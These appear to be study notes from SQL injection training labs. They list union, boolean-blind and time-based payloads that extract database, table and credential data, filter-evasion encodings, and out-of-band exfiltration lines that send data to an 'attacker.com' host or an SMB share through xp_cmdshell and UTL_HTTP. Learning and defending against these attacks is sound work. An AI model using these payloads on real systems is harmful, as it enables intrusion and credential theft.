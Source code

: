 

  ## SQLi

- In-Band SQLi - result on same webpage
- Error-Based SQLi -err is printed on the website, revealing the database structure
- union-bases SQLi - use union with select query
- Examples:
	- get version based on error message`SELECT * FROM users WHERE id = 1 AND 1=CONVERT(int, (SELECT @@version))`
	- boolean based: `SELECT * FROM users WHERE id = 1 AND 1=1 (true condition) versus SELECT * FROM users WHERE id = 1 AND 1=2 (false condition)`
	- time based: `SELECT * FROM users WHERE id = 1; IF (1=1) WAITFOR DELAY '00:00:05'--`

### In-band SQLi
- All of these are based on MySQL syntax

```sql
  
# exploit query: select * from article where id = 5'

1 UNION SELECT 1
1 UNION SELECT 1,2
1 UNION SELECT 1,2,3


# get the database name

0 UNION SELECT 1,2,database()


# List of tables for database 'sqli_one'

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

# find table structure of 'staff_users'

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

  
# get the table row from 'staff_users'
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

```  

### Blind SQLi - Boolean
```sql
# Simple injection
select * from users where username='' and password='' OR 1=1;
  

# Boolean SQLi - response has two outcome: pass or fail
# See for which query, response is a success
  

# get columns
admin123' UNION SELECT 1,2,3;--


# Get database name
admin123' UNION SELECT 1,2,3 where database() like 's%';--
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
admin123' UNION SELECT 1,2,3 where database() like 'sql%';--



# Get table name

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'us%';--

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'use%';--


# get columns in a table

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'p%';

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'pa%';

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'pas%';


# exclude found columns
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'pass%' and COLUMN_NAME !='id';

# Get table data
admin123' UNION SELECT 1,2,3 from users where username like 'a%
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

  ```

### Blind SQLi - time based

```sql
# Get columns
admin123' UNION SELECT SLEEP(5);--
admin123' UNION SELECT SLEEP(5), 2;--


# get database
admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
# other queries are same as boolean, with sleep(5) as extra param
```


## Evasion
- **URL Encoding**:  the payload `' OR 1=1--` can be encoded as `%27%20OR%201%3D1--`. 
- **Hexadecimal Encoding**: the query `SELECT * FROM users WHERE name = 'admin'` can be encoded as `SELECT * FROM users WHERE name = 0x61646d696e`. 
- **Unicode Encoding**: the string `admin` can be encoded as `\u0061\u0064\u006d\u0069\u006e`.
- **Using Numerical Values**: instead of injecting `' OR '1'='1`, use `OR 1=1` 
- **Using SQL Comments**:  the input `admin'--` can be transformed into `admin--`, 
- **Using CONCAT() Function**:  `CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e)`constructs the string admin.
- **Comments to Replace Spaces**: instead of `SELECT * FROM users WHERE name = 'admin'`,  use `SELECT/**//*FROM/**/users/**/WHERE/**/name/**/='admin'`.    
- **Tab or Newline Characters**:  `SELECT\t*\tFROM\tusers\tWHERE\tname\t=\t'admin'`.     
- **Alternate Characters**:  alternative URL-encoded characters representing different types of whitespace, such as `%09` (horizontal tab), `%0A` (line feed), `%0C` (form feed), `%0D` (carriage return), and `%A0` (non-breaking space)

## Out of Bound
- mariadb: `SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';`
- mssql: `EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';`. Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration through OOB channels.
- oracle: 
```sql
DECLARE 
	req UTL_HTTP.REQ;
	resp UTL_HTTP.RESP;
BEGIN 
	req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
	UTL_HTTP.GET_RESPONSE(req);
END;
```
- SMB exfil: `SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';`
- HTTP exfil: ``SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`.`
- 